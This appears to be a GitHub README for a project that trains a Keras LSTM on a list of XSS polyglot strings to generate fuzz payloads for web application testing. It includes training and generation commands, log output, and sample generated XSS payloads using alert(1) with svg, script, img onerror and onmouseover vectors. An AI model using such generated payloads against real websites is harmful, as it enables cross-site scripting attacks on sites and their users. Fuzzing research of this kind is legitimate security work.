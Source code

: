 # Generating XSS Payloads from Polyglot Files using Deep Learning

The scripts below serve to generate fuzz data for websites by training a neural network designed and implemented in
Keras to mimic the statstical patterns evident in the sequences of characters that make up an XSS payload. The core 
argument here is that since the text that makes up an XSS payload is essentially a sequence of numbers/characters, and 
the selection probability of each characters in each position it appears can be modelled as a 
sequence prediction problem for a LSTM with rich enough representation mechanisms for a the given data set. I use a web 
hacking experts list of preffered polyglot strings to train the network here.

In a real web attack/testing scenario this network I believe can offer a good source of fuzz data 
honed by the contributive efforts of an entire web hacking community and dynamically adjusted to its 
trends and favored HTML/java/SVN trouble causing grammar hotspots i.e. perhaps web apps are toppling dew 
to iframe onclick event handling more than SVN due to context of certain framework - you can then spin this 
up and train it on some dirt iframe tags and you will have a good source of live/random fuzz data directly 
hitting the iframe part of the grammar, further more you can probably very easily mix in and take out parts 
of the grammar as you please by adjusting the training sample.
 

## How to use
The project includes two scripts

* `learn_payloads.py`  used to train the neural net on a set of payloads, this produces a set of weights.
* `generate_payloads.py` used to generate payloads based on a trained set of weights.  

### Training the Neural Net
In order to get the net to spit out payloads that look "polyglotty" enough (according to the structural set up I have) all you need to do is run the `learn_payloads.py` script and it will sweep up all the strings you have in a given file and try to learn the rules used to generate them so it can produce more like that.

Here's how its done:
```
keth@keithbook:~/pymlprojects_main/PyMLProjects/payloads/jhaddix/seq-12/run2$ ../../../learn_payloads.py ../../data/jhaddix.txt 
Using TensorFlow backend.
['\t', '\n', ' ', '!', '"', '#', '$', '%', '&', "'", '(', ')', '*', '+', ',', '-', '.', '/', '0', '1', '2', '3', '4', '5', '6', '7', '8', '9', ':', ';', '<', '=', '>', '?', '@', 'A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z', '[', '\\', ']', '^', '_', '`', 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', '{', '}', '~', '\x80', '\x82', '\x85', '\x86', '\x89', '\x8e', '\x8f', '\x90', '\x92', '\x93', '\x98', '\x9d', '\xa2', '\xaf', '\xbc', '\xbd', '\xbe', '\xc2', '\xc3', '\xe2']
[*] Total Characters: 36896
[*] Total Vocab: 116
[*] Total Patterns: 36884
12 1
116
[*] training model...
Epoch 1/50
2018-03-12 21:00:06.275223: I tensorflow/core/platform/cpu_feature_guard.cc:137] Your CPU supports instructions that this TensorFlow binary was not compiled to use: SSE4.1 SSE4.2 AVX AVX2 FMA
 3450/36884 [=>............................] - ETA: 8:11 - loss: 4.1146^[c
 3500/36884 [=>............................] - ETA: 8:10 - loss: 4.1133
 3550/36884 [=>............................] - ETA: 8:09 - loss: 4.1095

```

This will produce a list of weights files (used to set up the neural net from scratch if you need to use it later):

```
-rw-rw-r-- 1 keth keth 38566192 Feb 26 22:48 seq-12-weights-improvement-01-3.8815.hdf5
-rw-rw-r-- 1 keth keth 38566192 Feb 26 22:54 seq-12-weights-improvement-02-3.4597.hdf5
-rw-rw-r-- 1 keth keth 38566192 Feb 26 23:00 seq-12-weights-improvement-03-3.0045.hdf5
-rw-rw-r-- 1 keth keth 38566192 Feb 26 23:06 seq-12-weights-improvement-04-2.6040.hdf5
...
-rw-rw-r-- 1 keth keth 38566192 Feb 27 00:17 seq-12-weights-improvement-19-0.5382.hdf5
-rw-rw-r-- 1 keth keth 38566192 Feb 27 00:20 seq-12-weights-improvement-20-0.5177.hdf5

```

### Generating Payloads
In order to generate payloads you need to run the `generate_payloads.py` script, it takes in the original data file you used to train the net and a weight configuration you'd like to use (try choosing one with a low enough weight to satisfy your payload generatio nneeds) here's how to do that:

```
keth@keithbook:~/pymlprojects_main/PyMLProjects/payloads/jhaddix/seq-12$ ../../generate_payloads.py ../data/jhaddix.txt seq-12-weights-improvement-50-0.3361.hdf5 
Using TensorFlow backend.
[*] Total Characters: 36896
[*] Total Vocab: 116
[*] Total Patterns: 36884
2018-03-12 21:10:21.244253: I tensorflow/core/platform/cpu_feature_guard.cc:137] Your CPU supports instructions that this TensorFlow binary was not compiled to use: SSE4.1 SSE4.2 AVX AVX2 FMA
[*] Seed: 'e?\/onerror '

= alert(1)???
<svg><script ?>alert(1)
<input talue="``onmouseover=alert(1)"></dire <dtr sac tooreo=alert(1)"></dire <dtr sac tooreo=alert(1)"></dire <dtr sac tooreo=alert(1)"></dire <dtr sac tooreo=al
e="x:">
<--`<img/src=` onerror=alert(1)>/script>">script> document.getElementById(%div2").innerHTML;</script>
<script> document.getElementById(%div2").innerHTML;</script>
<script> document.getElementB
TML=innerHTML</script>

```
*some stderr output has been supressed, tensor flow and keras like to make a lot of noise hehe

## Dependencies

The only thing you need to get this up and running is a working python install and whatever else you need to run Keras, smoothly.
Python Keras : https://keras.io/ 


Further Reading and Similar ideas:
*  http://www.ieeeconfpublishing.org/cpir/UploadedFiles/ver11.0.pdf 
*  http://machinelearningmastery.com/text-generation-lstm-recurrent-neural-networks-python-keras/ 
*  https://0day.work/using-neural-networks-for-password-cracking/ 

